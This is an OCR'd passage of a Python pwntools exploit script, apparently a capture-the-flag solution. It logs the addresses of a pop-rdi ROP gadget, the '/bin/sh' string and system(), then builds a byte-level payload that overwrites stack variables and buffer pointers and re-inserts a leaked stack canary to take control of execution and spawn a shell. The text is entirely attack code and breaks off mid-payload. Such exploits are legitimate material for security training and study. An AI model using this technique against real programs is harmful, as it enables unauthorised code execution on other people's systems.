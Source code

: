 ```python exp.py

log.success("pop_rdi_ret: "+hex(pop_rdi_ret))
log.success("/bin/sh: "+hex(bin_sh))
log.success("system: "+hex(system_addr))

canary_byte = []
for i in xrange(2, 17, 2):
    canary_byte.append( str(int(canary[i:i+2:], 16) ) )

r.send("y\n")

# 0~15 to pass the first 16 numbers
for i in range(16):
    print r.recvuntil(": ")
    log.success("sending: "+str(guess[i]))
    r.send(str(guess[i])+"\n")

payloads = ["52",# will be adjust later
            "0",#padding
            "0",#padding
            "0",#padding
            lucky_byte1,   # lucky number
            lucky_byte2,   # lucky number
            lucky_byte3,   # lucky number
            lucky_byte4,   # lucky number
           "1", # v10 for win
            "0",#padding
            "0",#padding
            "0",#padding
           "17", # i
            "0",#padding
            "0",#padding
            "0",#padding
           "0", # v12_1
            "0",#padding
            "0",#padding
            "0",#padding
           "0", # v12_2
            "0",#padding
            "0",#padding
            "0",#padding
            "8", #name_buf 0x08
            "49", #name_buf 0x31
            "96", #name_buf 0x60
            "0", #name_buf 0x00
           "0", # padding
            "0",#padding
            "0",#padding
            "0",#padding
            "168", #name_buf 0xa8
            "48", #name_buf 0x30
            "96", #name_buf 0x60
            "0", #name_buf 0x00
           "0", # padding
            "0",#padding
            "0",#padding
            "0",#padding
           canary_byte[7], # canary 1
           canary_byte[6], # canary 2
           canary_byte[5], # canary 3
           canary_byte[4], # canary 4
           canary_byte[3], # canary 5
           canary_byte[2], # canary 6
```